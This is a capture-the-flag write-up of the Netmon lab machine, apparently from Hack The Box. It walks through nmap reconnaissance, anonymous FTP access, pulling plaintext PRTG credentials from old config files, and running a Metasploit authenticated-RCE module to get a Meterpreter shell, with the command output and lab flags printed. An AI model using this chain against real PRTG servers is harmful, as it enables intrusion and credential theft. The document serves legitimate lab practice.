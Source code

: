 ![Image](/assets/Netmon.png)

Netmon serves as a brilliant example of being very intentional and simple when looking for vectors to enumerate and services to exploit. I spent time going down a rabbit hole, albeit a shallow one, but the lesson was learned. It's also important to take very copious notes in these reports here, so from now on these will be very fleshed out.

### Reconnaissance
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-04 15:39 EDT
Nmap scan report for 10.10.10.152
Host is up (0.12s latency).
Not shown: 52259 closed tcp ports (reset), 13263 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE      VERSION
21/tcp    open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_11-10-23  10:20AM       <DIR>          Windows
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp    open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-server-header: PRTG/18.1.37.13946
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2024-09-04T19:41:21
|_  start_date: 2024-09-04T19:38:24

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 120.10 seconds

```

The scan gives us quite a bit. We've got access to FTP shares, a PRTG Monitor version 18.1.37.13946, and SMB. In hindsight, it's very simple and quite concise, so the trained eye merely comes from practice.

### Service Enumeration

Take the path of least resistance. Be water. Let's fucking go, yeah? Starting with FTP is the sensical choice, with anonymous login allowed, we're privy to quite a bit.

Initially, I'd completely skipped this vector... Dunno why.  `ftp anonymous@10.10.10.152` will yield access. Now, from now on, where applicable, `ls -la` takes precedence. This shows hidden directories, if any. 

```
┌──(root㉿kali)-[/home/li0t]
└─# ftp anonymous@10.10.10.152
Connected to 10.10.10.152.
220 Microsoft FTP Service
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls -la
229 Entering Extended Passive Mode (|||49858|)
150 Opening ASCII mode data connection.
11-20-16  10:46PM       <DIR>          $RECYCLE.BIN
02-03-19  12:18AM                 1024 .rnd
11-20-16  09:59PM               389408 bootmgr
07-16-16  09:10AM                    1 BOOTNXT
02-03-19  08:05AM       <DIR>          Documents and Settings
02-25-19  10:15PM       <DIR>          inetpub
09-06-24  05:49AM            738197504 pagefile.sys
07-16-16  09:18AM       <DIR>          PerfLogs
02-25-19  10:56PM       <DIR>          Program Files
02-03-19  12:28AM       <DIR>          Program Files (x86)
12-15-21  10:40AM       <DIR>          ProgramData
02-03-19  08:05AM       <DIR>          Recovery
02-03-19  08:04AM       <DIR>          System Volume Information
02-03-19  08:08AM       <DIR>          Users
11-10-23  10:20AM       <DIR>          Windows
226 Transfer complete.

```

We get a lot here, but we don't know what it all means yet. Easiest path leads us down through public users to get our user flag.

```
ftp> more user.txt
0526c34b6f2df988e87b2d8d1abc7b4b
```

Theres nothing much else here in the `/Users` directory, and we cannot access administrator level ones without higher privileges. We'll come back here soon. Let's see what the web server has to offer.

![Image](/assets/Screenshot 2024-09-04 at 3.45.47 PM.png)

Navigating to the website, we're met with a portal for this PRTG Network Monitor, and upon some research looking for version information and credentials, we find this interesting tidbits.

![Image](/assets/Screenshot 2024-09-06 at 6.35.25 AM.png)
![Image](/assets/Screenshot 2024-09-06 at 6.29.25 AM.png)
![Image](/assets/Screenshot 2024-09-06 at 6.14.17 AM.png)

So, it looks like this version of the software keeps plaintext credentials in an old configuration file, and given the path in the photo, it looks like we can access through FTP. Navigating to `/ProgramData/Paessler/PRTG\ Network\ Monitor/` gives us access to the old configuration files, where we can find the credentials needed.

![Image](/assets/Screenshot 2024-09-06 at 6.28.55 AM.png)

### Initial Access

Now, once found, we can use searchsploit to check if there's a MSF module for the RCE referenced above. 

```
┌──(root㉿kali)-[/home/li0t]
└─# searchsploit PRTG
------------------------------------------- ---------------------------------
 Exploit Title                             |  Path
------------------------------------------- ---------------------------------
PRTG Network Monitor 18.2.38 - (Authentica | windows/webapps/46527.sh
PRTG Network Monitor 20.4.63.1412 - 'maps' | windows/webapps/49156.txt
PRTG Network Monitor < 18.1.39.1648 - Stac | windows_x86/dos/44500.py
PRTG Traffic Grapher 6.2.1 - 'url' Cross-S | java/webapps/34108.txt
------------------------------------------- --------------------------------
```

Looks like we're in business. I'm going to use Metasploit for now because I'm pressed on time, but I'll come back through (for all MSF ones) and do it manually as well.

```
msf6 > search PRTG

Matching Modules
================

   #  Name                                                        Disclosure Date  Rank       Check  Description
   -  ----                                                        ---------------  ----       -----  -----------
   0  exploit/windows/http/prtg_authenticated_rce_cve_2023_32781  2023-08-09       excellent  Yes    PRTG CVE-2023-32781 Authenticated RCE
   1    \_ target: Windows_Fetch                                  .                .          .      .
   2    \_ target: Windows_CMDStager                              .                .          .      .
   3  exploit/windows/http/prtg_authenticated_rce                 2018-06-25       excellent  Yes    PRTG Network Monitor Authenticated RCE

```

Looks like 3 is what we want. I'll also set to a `bind_tcp` payload, as reverse has been throwing errors for me. Also, the box was published in 2019, and seeing as the password houses 2018, we can give both a shot for variance.

![Image](/assets/Screenshot 2024-09-06 at 6.40.30 AM.png)

Let it rip, bear.

```
msf6 exploit(windows/http/prtg_authenticated_rce) > run

[+] Successfully logged in with provided credentials
[+] Created malicious notification (objid=2018)
[+] Triggered malicious notification
[+] Deleted malicious notification
[*] Waiting for payload execution.. (30 sec. max)
[*] Started bind TCP handler against 10.10.10.152:4444
[*] Sending stage (176198 bytes) to 10.10.10.152
[*] Meterpreter session 1 opened (10.10.14.3:37941 -> 10.10.10.152:4444) at 2024-09-06 06:40:53 -0400

meterpreter > 
```

### Post-Exploitation

Navigate to the administrator file that we didn't have access to before, and you'll get your flag.

```
meterpreter > cat root.txt 
45d31e16cd35bfb0311d0b7f3207e644
```
#easy #windows #msfconsole 
